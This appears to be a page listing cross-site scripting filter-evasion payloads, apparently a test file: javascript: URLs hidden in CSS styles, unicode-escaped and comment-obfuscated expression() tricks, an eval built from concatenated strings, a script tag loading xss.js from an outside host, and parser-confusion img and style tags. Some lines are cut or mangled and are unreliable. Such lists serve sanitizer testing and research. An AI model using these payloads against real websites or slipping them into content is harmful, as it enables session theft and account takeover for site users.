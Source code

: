 
<table>
</table><table><tbody><tr><td>
<div style="background-image: url(javascript:alert('XSS'))">
<div style="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<div style="width: expression(alert('XSS'));">
<style>@im\port'\ja\vasc\ript:alert("XSS")';</style>
<img style="xss:expr/*XSS*/ession(alert('XSS'))">

exp/*<a style="no\xss:noxss(&quot;*//*&quot;);xss:ex/*XSS*//*/*/pression(alert(&quot;XSS&quot;))">

a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);


PT SRC="http://ha.ckers.org/xss.js"&gt;
<button>TESTHTML5FORMACTION
</button><button>crosssitespt

<img src="x">
<style><img src="</style><img src="x">
